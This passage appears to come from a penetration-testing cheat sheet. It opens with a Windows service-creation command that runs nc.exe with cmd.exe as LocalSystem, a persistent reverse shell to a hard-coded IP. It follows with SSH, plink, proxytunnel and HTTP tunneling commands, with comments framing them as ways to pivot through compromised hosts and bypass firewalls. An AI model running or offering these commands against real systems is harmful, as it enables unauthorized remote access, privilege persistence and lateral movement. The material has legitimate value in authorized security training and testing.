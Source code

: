 ```csharp
sc create spotlessSrv binpath= "C:\nc.exe 10.11.0.245 443 -e C:\WINDOWS\System32\cmd.exe" obj= "LocalSystem" password= ""
```

### Port Forwarding / SSH Tunneling

#### SSH: Local Port Forwarding

```bash
# Listen on local port 8080 and forward incoming traffic to REMOT_HOST:PORT via SSH_SERVER
# Scenario: access a host that's being blocked by a firewall via SSH_SERVER;
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

#### SSH: Dynamic Port Forwarding

```bash
# Listen on local port 8080. Incoming traffic to 127.0.0.1:8080 forwards it to final destination via SSH_SERVER
# Scenario: proxy your web traffic through SSH tunnel OR access hosts on internal network via a compromised DMZ box;
ssh -D 127.0.0.1:8080 user@SSH_SERVER
```

#### SSH: Remote Port Forwarding

```bash
# Open port 5555 on SSH_SERVER. Incoming traffic to SSH_SERVER:5555 is tunneled to LOCALHOST:3389
# Scenario: expose RDP on non-routable network;
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
plink -R ATTACKER:ATTACKER_PORT:127.0.01:80 -l root -pw pw ATTACKER_IP
```

#### Proxy Tunnel

```bash
# Open a local port 127.0.0.1:5555. Incoming traffic to 5555 is proxied to DESTINATION_HOST through PROXY_HOST:3128
# Scenario: a remote host has SSH running, but it's only bound to 127.0.0.1, but you want to reach it;
proxytunnel -p PROXY_HOST:3128 -d DESTINATION_HOST:22 -a 5555
ssh user@127.0.0.1 -p 5555
```

#### HTTP Tunnel: SSH Over HTTP

```bash
# Server - open port 80. Redirect all incoming traffic to localhost:80 to localhost:22
hts -F localhost:22 80

# Client - open port 8080. Redirect all incoming traffic to localhost:8080 to 192.168.1.15:80
htc -F 8080 192.168.1.15:80

# Client - connect to localhost:8080 -> get tunneled to 192.168.1.15:80 -> get redirected to 192.168.1.15:22
ssh localhost -p 8080
```
